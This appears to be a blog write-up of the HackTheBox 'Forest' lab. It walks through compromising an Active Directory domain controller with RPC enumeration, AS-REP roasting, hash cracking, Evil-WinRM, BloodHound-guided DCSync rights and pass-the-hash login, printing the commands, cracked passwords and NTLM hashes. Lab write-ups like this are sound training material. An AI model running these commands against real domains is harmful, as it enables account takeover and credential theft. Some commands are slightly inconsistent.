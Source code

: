 ```yaml
---
title: "HackTheBox Forest"
date: 2022-11-11T19:09:00+01:00
draft: false 
---
```


Exploit a domain controller that allows us to enumerate users over RPC, attack Kerberos 
with AS-REP Roasting, and use Win-RM to get a shell. Then using Bloodhound we can take
advantage of the permissions of some user that allow us to dump admin hash to get a shell as admin.
<!--more-->

# **Introduction**

It's been a long time since I posted my last writeup, now I'm back. We start with a cool box to begin with Active Directory.

## **Nmap**
Let's start with the nmap scan which shows us typical open ports for a Windows machine :

```text
# Nmap 7.91 scan initiated Tue Jul 13 06:49:02 2021 as: nmap -sC -sV -o output_nmap.txt 10.10.10.161
Nmap scan report for 10.10.10.161
Host is up (0.079s latency).
Not shown: 989 closed ports
PORT     STATE SERVICE      VERSION
53/tcp   open  domain       Simple DNS Plus
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2021-07-13 10:59:12Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: HTB)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: htb.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: FOREST; OS: Windows; CPE: cpe:/o:microsoft:windows
```
## **SMB**

We can see that port 445 is open, which is the SMB port. Let's use with smbmap to see if we can access some shares :

```text
kali@kali# smbmap -H 10.10.10.161
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.161...
[+] IP: 10.10.10.161:445        Name: 10.10.10.161                                      
        Disk    Permissions                                             
        ----     -----------                                               
[!] Access Denied
```
Unfortunately, we can't access the shares without a password but don't worry we can connect as null user with rpcclient to enumerate users and groups : 

```text
kali@kali# rpcclient -U "" -N 10.10.10.161
rpcclient $>
```
Then use enumdomusers to get a list of users :

```text
rpcclient $> enumdomusers              
user:[Administrator] rid:[0x1f4]       
...[snip]...
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]  
user:[andy] rid:[0x47e]                
user:[mark] rid:[0x47f]                
user:[santi] rid:[0x480]
```
Above you can see a list of potential user which might be vulnerable to something.

## **Own user svc-alfresco**

 Now what can we do with these users ? We can use a method called AS-REP Roasting to get the password hashes of these users.
This method require the user to have the "don't require Kerberos pre-authentication" option enabled. We can check this with a script from impacket collection : 
``` 
/opt/tool/impacket/examples/GetNPUsers.py -no-pass -dc-ip 10.10.10.161 -usersfile users.txt htb/
```
Jackpot ! We got the hashe of the user svc-alfresco. We can crack his hashes with hashcat :
```
hashcat -m 18200 svc-alfresco.kerb /usr/share/wordlists/rockyou.txt 
```
Hashcat easily cracked the password : s3rvice.

Finally we can use these credentials to log in as svc-alfresco using Evil-WinRM :

```
kali@kali# evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
                                                         
Info: Starting Evil-WinRM shell v1.7

Info: Establishing connection to remote endpoint
                                                         
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```
From There we can grab the user flag : 
```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> type user.txt
************************     
```

## **Time for Root**

From there I just collected data using bloodhound-python
so we can import the .json files in BloodHound :
```
bloodhound-python -u svc-alfresco -p 's3rvice' -d htb.local -ns 10.10.10.161 -c DcOnly
```

After importing the data, under “Queries”, just click on  “Find Shorter Paths to Domain Admin”, and we get the following graph:
![image text](/bloodhound.png)

Basically svc-alfresco is a member of Privileged IT Account, which is a member of Account Operators, it’s like my user is a member of Account Operators and Account Operators has Generic All privilege on the Exchange Windows Permissions group. If I click on the edge in Bloodhound, and select help, there’s an “Abuse Info” tab in the pop up that displays:

![image text](/abuse_info.png)

Note that the Exchange Windows Permissions group has WriteDacl
privileges on the Domain. The WriteDACL privilege gives a user the ability to add ACLs to an
object. In other words we can add a user to this group and give them DCSync privileges.

Let's go back to our shell and create a new user, add him to Exchange Windows Permissions group :

```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> net user add achla Pa$$sw0rd! /add /domain
```
```
*Evil-WinRM* PS C:\Users\svc-alfresco\desktop> net group "Exchange Windows Permissions" achla /add
```

After importing PowerView script we can
use the Add-ObjectACL with achla's credentials, and give him DCSync rights.

```
$pass = ConvertTo-SecureString 'Pa$$sw0rd!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb\achla', $pass)
Add-ObjectAcl -Credential $Cred -PrincipalIdentity achla -Rights DCSync
```

To conclude I used the secretdump script from impacket to get the NTLM hashes for all domain users
```
kali@kali# /opt/tool/impacket/examples/secretsdump.py achla:Pa$$w0rd!@10.10.10.161

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
...[snip]...
[*] Cleaning up... 
```

We've got the hash for Administrator, let's just login using psexec

```
kali@kali# /opt/tool/impacket/examples/psexec.py Administrator@10.10.10.161 -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6
```
Just grab the root flag in Administrator's Desktop and voila.
That all for me, thanks for reading.